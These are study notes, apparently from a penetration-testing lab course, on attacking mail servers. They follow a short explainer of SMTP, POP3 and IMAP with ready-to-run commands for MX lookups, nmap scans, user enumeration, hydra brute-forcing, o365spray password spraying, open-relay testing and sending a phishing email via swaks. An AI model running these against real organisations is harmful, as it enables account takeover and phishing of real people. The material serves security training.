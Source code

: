 
>A `mail server` (sometimes also referred to as an email server) is a server that handles and delivers email over a network, usually over the Internet. A mail server can receive emails from a client device and send them to other mail servers. A mail server can also deliver emails to a client device. A client is usually the device where we read our emails (computers, smartphones, etc.).
>>
>>When we press the `Send` button in our email application (email client), the program establishes a connection to an `SMTP` server on the network or Internet. The name `SMTP` stands for Simple Mail Transfer Protocol, and it is a protocol for delivering emails from clients to servers and from servers to other servers.
>>>
>>>When we download emails to our email application, it will connect to a `POP3` or `IMAP4` server on the Internet, which allows the user to save messages in a server mailbox and download them periodically.
>>>>
>>>>By default, `POP3` clients remove downloaded messages from the email server. This behavior makes it difficult to access email on multiple devices since downloaded messages are stored on the local computer. However, we can typically configure a `POP3` client to keep copies of downloaded messages on the server.
>>>>On the other hand, by default, `IMAP4` clients do not remove downloaded messages from the email server. This behavior makes it easy to access email messages from multiple devices. Let's see how we can target mail servers.


![[SMTP-IMAP-1.png]]

---

```
$ host -t MX hackthebox.eu
```

```
$ host -t MX microsoft.com
```

```
$ dig mx plaintext.do | grep "MX" | grep -v ";"
```

```
$ dig mx inlanefreight.com | grep "MX" | grep -v ";"
```

```
$ host -t A mail1.inlanefreight.htb
```
#host #dig #mx #grep 

|**Port**|**Service**|
|---|---|
|`TCP/25`|SMTP Unencrypted|
|`TCP/143`|IMAP4 Unencrypted|
|`TCP/110`|POP3 Unencrypted|
|`TCP/465`|SMTP Encrypted|
|`TCP/993`|IMAP4 Encrypted|
|`TCP/995`|POP3 Encrypted|

```
$ sudo nmap -Pn -sV -sC -p25,143,110,465,993,995 10.129.14.128
```

```
$ telnet 10.10.110.20 25
```

```
$ telnet 10.10.110.20 110
```

```
$ smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7
```

```
$ python3 o365spray.py --validate --domain msplaintext.xyz
```

```
$ python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz  
```

```
$ hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
```

```
$ python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```

#nmap #smtp #imap #pop3 #telnet #smtp-user-enum #python #o365spray #hydra #login #passwordspray #bruteforce 






```
$ nmap -p25 -Pn --script smtp-open-relay 10.10.11.213
```
#nma #smtp #script 

```
$ swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213
```
#swaks 

```
$ curl -k 'imaps://<FQDN/IP>' --user <user>:<password> -v 
```

```
$ openssl s_client -connect <FQDN/IP>:imap
```

```
$ openssl s_client -connect <FQDN/IP>:pop
```
#curl #openssl #imap #pop3 


